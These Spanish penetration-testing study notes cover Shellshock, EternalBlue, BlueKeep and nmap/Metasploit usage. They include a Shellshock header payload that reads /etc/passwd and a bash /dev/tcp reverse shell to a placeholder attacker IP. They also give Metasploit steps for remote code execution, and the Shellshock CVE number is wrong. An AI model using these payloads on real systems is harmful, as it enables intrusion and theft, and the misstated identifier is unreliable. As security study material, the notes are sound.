 # Vulnerabilidades

Propietario: Adrian Gisbert Cabello

# Linux

## Vulnerabilidades protocolo FTP

- Para ver los scripts de NMAP disponibles para identificar vulnerabilidades: `ls -al /usr/share/nmap/scripts/ | grep ftp-*`

## Shellshock (CVE-2015-6271-Shellshock) Vulnerability: Es una vulnerabilidad en Bash para obtener una shell

- Si encontramos un script o algún archivo .cgi en alguna web que active un script podemos abusar de el:
- Mediante un script en NMAP: `nmap -sV 192.168.X.X --script=http-shellshock --script-args ¨http-shellshock.uri=/RUTA_DEL_ARCHIVO¨` Podremos saber si es vulnerable
- Si es vulnerable, con burpsuite podemos capturar la petición del script, lo llevamos al repeater e inyectamos el siguiente código en el HTTP Header:
- `() { :; }; echo; echo; /bin/bash -c ‘cat /etc/passwd’`
- Podemos poner el comando que queramos, es un RCE.
- Podemos obtener una reverse shell con netcat: `() { :; }; echo; echo; /bin/bash -c ‘bash -i>&/dev/tcp/IP.MÁQUINA.ATACANTE/1234 0>&1'`
- También podemos abusar de la vulnerabilidad Shellshock con metasploit: `search shellshock`
- Podemos usar dos módulos: `use auxiliary/scanner/http/apache_mod_cgi_bash_env` | `use exploit/multi/http/apache_mod_cgi_bash_env_exec`
- El primero es un escaner que nos dice si es vulnerable, el segundo tenemos que especificar dos parámetros, RHOSTS y TARGETURI (/gettime.cgi)
- Le damos a `run` y obtendremos una sesión meterpreter

# Windows

## Eternalblue Windows SMB (445):

- Para ver si el equipo víctima es vulnerable a eternalblue podemos utilizar dos formas:
- NMAP: `nmap -sV -p 445 --script=smb-vuln-ms17-010 192.168.X.X`
- Metasploit: `search eternalblue`

## BlueKeep CVE-2019-0708 Windows RDP (3389):

- Se puede explotar en XP, Vista, Windows 7 y Windows Server 2008 R2
- Para explotarlo con metasploit:
    - `search BlueKeep`
    - `use 0` (para saber si la máquina es vulnerable)
    - `set RHOSTS`
    - `run`
    
    - `use 1` (para usar un RCE - Ejecución Remota de Comandos)
    - `set RHOSTS`
    - `show targets`
    - `set target 2` (usar el número del target que proceda a la máquina víctima)

## WinRM Windows (p5985-p5986)

Alternate Data Streams (ADS) - Windows: Esconder un payload en la metadata de un archivo

- Buscar en google como esconder payloads ADS